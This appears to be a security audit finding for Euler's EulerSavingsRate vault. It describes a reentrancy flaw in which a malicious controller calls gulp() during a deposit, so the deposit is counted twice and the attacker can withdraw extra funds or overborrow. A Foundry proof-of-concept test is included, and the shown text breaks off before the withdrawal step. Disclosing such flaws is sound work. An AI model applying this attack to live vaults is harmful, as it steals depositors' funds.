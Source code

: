 Additionally the EulerSavingsRate vault uses an internal accounting to determine the price per share, inside the [`totalAssets()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/src/Synths/EulerSavingsRate.sol#L58-L58) function it uses the `totalAssetsDeposited` variable and the [`interestAccrued()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/src/Synths/EulerSavingsRate.sol#L59-L59) function that returns the interests available for distribution.

The reentrancy attack is made possible by the controller check. When a user deposits in the vault, the eSynth tokens are sent, and the controller check is done before the `totalAssetsDeposited` is updated. An attacker can set a malicious contract as controller, and during the call to it, the controller could call the [`gulp()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/src/Synths/EulerSavingsRate.sol#L130-L130) function.

This function determines how much interest is available to be distributed; it uses the eSynth balance of the contract and subtracts the internal balance from it. However, since the internal balance `totalAssetsDeposited` hasn't been updated yet during the malicious controller's reentrancy, the function will assume that the balance deposited by the attacker can be distributed as interest to depositors over the next two weeks.

The vault then saves the deposited amount twice into the accounting system, once inside the `totalAssetsDeposited` and once as interest to be distributed that will be returned over time by [`interestAccrued()`](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/src/Synths/EulerSavingsRate.sol#L59-L59).

The attacker can do this attack and withdraw more than the deposit as soon as one block later; the longer he waits, the more tokens he will earn.
Additionally, since the price per share is modified if the EulerSavingsRate is used as collateral on an Euler lending market, the attacker could borrow more than he should.

#### Proof of concept

In the following test, `user2` executes the attack, waits one week, and then withdraws.
It can be copy pasted inside [ESynthGeneralTest.sol](https://github.com/euler-xyz/euler-vault-kit//blob/7d2408dc1013b6f3149a5f08a69ded4dc99db7c8/test/unit/esynth/ESynthGeneral.t.sol#L11-L11).

```solidity
function test_depositGetInterest() public {
        uint256 amount = 500 ether;
        esynth.setCapacity(address(this), MAX_ALLOWED);
        esynth.mint(user1, amount);
        esynth.mint(user2, amount);

        EulerSavingsRate savings = new EulerSavingsRate(evc, address(esynth), "ESYNTH SAVING", "ESAVE");
        MaliciousController mc = new MaliciousController(address(savings));

        //user 1 deposit his synth in the saving vault
        vm.startPrank(user1);
        esynth.approve(address(savings), type(uint256).max);
        uint shares = savings.deposit(amount, user1);
        vm.stopPrank();

        //user 2 deposit his synth in the saving vault
        vm.startPrank(user2);
        //set malicious controller
        evc.enableController(user2, address(mc));
        mc.setGulpNextCall();
        //deposit
        esynth.approve(address(savings), type(uint256).max);
        uint shares2 = savings.deposit(amount, user2);
        vm.stopPrank();

        emit log_uint(shares);
        emit log_uint(shares2);

        skip(1 weeks);
```